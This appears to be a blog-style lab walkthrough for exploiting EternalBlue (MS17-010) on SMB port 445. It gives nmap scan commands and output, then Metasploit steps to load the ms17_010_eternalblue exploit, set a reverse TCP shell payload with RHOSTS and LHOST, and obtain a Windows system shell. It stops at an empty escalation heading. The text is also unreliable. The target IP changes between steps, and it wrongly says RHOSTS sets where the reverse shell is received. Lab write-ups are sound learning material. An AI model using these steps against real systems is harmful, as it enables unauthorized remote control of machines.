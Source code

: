 ```yaml
---
title: "Eternal Blue Exploit"
excerpt: "finding out and exploiting smb on port 445"
date: 2025-07-23
tags: [nmap, exploits, eternalblue, wanacry]
layout: single
author_profile: true
---
```

### What Is EternalBlue?

ternalBlue (tracked as MS17–010) is a vulnerability in Microsoft’s Server Message Block (SMB) protocol, 
specifically on port 445. SMB helps devices on a network (like printers and file servers) 
communicate with each other.

The National Security Agency (NSA) originally discovered this vulnerability and created an 
exploit for it. Eventually, it was leaked and adapted by hackers into the WannaCry ransomware,
causing global havoc.

steps are as follows:

1. run nmap -p 445 10.10.50.15 on your target to confirm that SMB (port 445) is open because
 EternalBlue attacks the SMB service.
2. Check vulnerability by running sudo nmap -sV -vv --script vuln 10.10.50.15. In the host script
 results you would see something like ost script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   **VULNERABLE:**
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: **VULNERABLE**

3. Start metasploit by running **msfconsole** in your terminal
4. Your vulnerability was ms17-010 as per the above report , so tun **search ms17-010**
    or just do **search scanner eternalblue**
   The exploitation code is exploit/windows/smb/ms17_010_eternalblue so use the exploit by running
   exploit/windows/smb/ms17_010_eternalblue
5.  Run **show option** to see the required value which is **RHOSTS** This tells Metasploit who the target is. or the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp
6.  INterminal , **set RHOSTS 10.10.7.58** then enter. This tells Metasploit where to receive the reverse shell.
7.  check your LHOST by running ip a | grep tun0, it is inet 10.23.144.37/16 scope global tun0
8.  also set alhost ie **set LHOST 10.23.144.37**
9.  run the exploit **run** after it runs, you may need to press **enter** to make it show prompt
    i.e **C:\Windows\System32>** if you wish you may try command like
      whoami
      hostname
      ipconfig       to prove the RHOST terminal is now displaying on your side

11.  While still in the shell (where you see C:\Windows\system32>), press: CTLL + Z,
    This will return you to the Metasploit console (msf6 >),
     while keeping that session active in the background. Run commands like sessions -i 85 later
      to go back into the shell.

     #### Escalate
     

